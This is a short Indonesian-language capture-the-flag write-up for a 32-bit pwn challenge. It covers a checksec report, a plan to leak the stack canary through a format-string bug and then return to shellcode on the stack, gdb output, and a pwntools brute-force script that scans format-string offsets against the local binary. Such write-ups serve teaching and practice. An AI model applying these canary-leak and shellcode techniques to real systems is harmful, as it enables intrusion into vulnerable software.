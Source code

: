 Tetapi buffer overflow disini dapat dilakukan harus dengan me-leak value dari canary dulu, karena canary dalam binary ini hidup.

```sh
abdullahnz@zeroday ~/CTF/AsgamaCTF/PWN/bebas checksec ./soal
[*] '/home/abdullahnz/CTF/AsgamaCTF/PWN/bebas/soal'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Ada 2 cara untuk mengeksploit binary ini, yaitu:
   1. Ret2libc.
   2. Write shellcode pada stack.

### Exploit
Berikut flow exploit dan pembuatan payload yang dilakukan.
   1. Leak canary dengan memanfaatkan bug `format string` pada input pertama.
   2. Leak address stack pada inputan kedua juga dengan memanfaatkan bug `format string` pada input pertama.
   3. Padding sebesar 0x136 ditambah dengan nilai canary.
   4. Return address ke alamat shellcode dimulai.
   5. Shellcode.

```py
   ...
   0x804866e <main+38>: mov    DWORD PTR [ebp-0xc],eax
=> 0x8048671 <main+41>: xor    eax,eax
   0x8048673 <main+43>: call   0x80485e6 <init>
   ...

  0x08048671 in main ()
  gdb-peda$ i r $eax
  eax            0x406e700        0x406e700
```

Canary memiliki nullbyte. Cari value canary dengan brute offset canary dan cari yang memiliki nullbyte diakhir dan debug binary untuk memastikan itu adalah nilai canary.

```sh
$ python brute.py | grep 00!
63 0xf7fb1000!
67 0xf9dd3600!
72 0xf7ef2000!
73 0xf7f80000!
```

File `brute.py`:
```py
#!/usr/bin/python

from pwn import *

context.log_level = 'warn'

def exploit():
    for i in range(80):
        p = process('./soal')
        payload = "%{}$p".format(i)
        p.sendlineafter(">> ", payload)
        p.recvuntil("Hai ")
        print i, p.recvline()
if __name__ == '__main__':
    exploit()
```